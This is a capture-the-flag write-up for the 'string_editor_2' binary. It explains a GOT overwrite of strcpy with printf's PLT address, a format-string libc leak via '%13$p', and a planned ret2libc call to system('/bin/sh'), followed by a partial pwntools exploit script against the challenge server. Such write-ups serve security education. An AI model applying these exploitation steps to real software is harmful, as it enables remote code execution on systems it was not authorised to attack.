 ## Writing the Exploit

Based on all of this information, it looks like a GOT overwrite would be the best strategy. Since we can overwrite only one character at a time, we should try to use a function that will only be triggered when we are ready; if a half-overwritten function is called, it will probably trigger an error and stop program execution. Since strcpy is never executed in the while loop unless the delete string option is selected, it makes the most sense as a target. 

Now, the binary does not contain a win function, and there are no imported libc functions that would let us pop a shell or read a file. As a result, we will need to ret2libc, and we will need to leak the ASLR address. Ultimately, the fake leak provided initially is actually helpful here since it gave us printf within the binary. Since strcpy uses the target global as its first parameter, if we overwrite the GOT entry to the PLT address of printf, we can edit the string to something along the lines of "%p%p%p%p" and create a format string vulnerability, which can in turn leak a libc value.

With a little bit of trial and error, we can determine that the format string "%13$p" seems to be leaking a libc value. By running the exploit locally and looking up the value in the leak with GDB-GEF (i.e. x/5i 0x7f8fac3c40b3), we can determine that this leak is the address of __libc_start_main+243, and we can derive a libc base from there. We can now derive the address of system in libc, and use a very similar process to call system(/bin/sh)

## The Exploit Itself

The full exploit in Python is shown below:

```
from pwn import *

#target = process('./string_editor_2') #, env={"LD_PRELOAD":"./libc.so.6"})
#pid = gdb.attach(target, "\nb *del\n set disassembly-flavor intel\ncontinue")

target = remote('chal.imaginaryctf.org', 42005)

libc = ELF('libc.so.6')
elf = ELF('string_editor_2')


#Gadgets:

target_global = 0x601080

printf_got = elf.got['printf'] 
strcpy_got = elf.got ['strcpy'] 
printf_plt = elf.symbols['printf']  

#%13$p leaks __libc_start_main+243
payload = b'%13$p%14$p'
for i in range(len(payload)):
	print(target.recvuntil(b'utils', timeout=1))
	target.sendline(str(i).encode('ascii')) #(str(puts_got - target_global).encode('ascii'))
	print(target.recvuntil(b'index?'))
	target.sendline(payload[i].to_bytes(1, 'little'))

#Now to overwrite GOT entry
payload = p64(printf_plt)

for i in range(6):
	print(target.recvuntil(b'utils', timeout=1))
	target.sendline(str(strcpy_got - target_global + i).encode('ascii'))
	print(target.recvuntil(b'index?'))
	target.sendline(payload[i].to_bytes(1, 'little'))
	
print(target.recvuntil(b'utils', timeout=1))
target.sendline(b'15')
```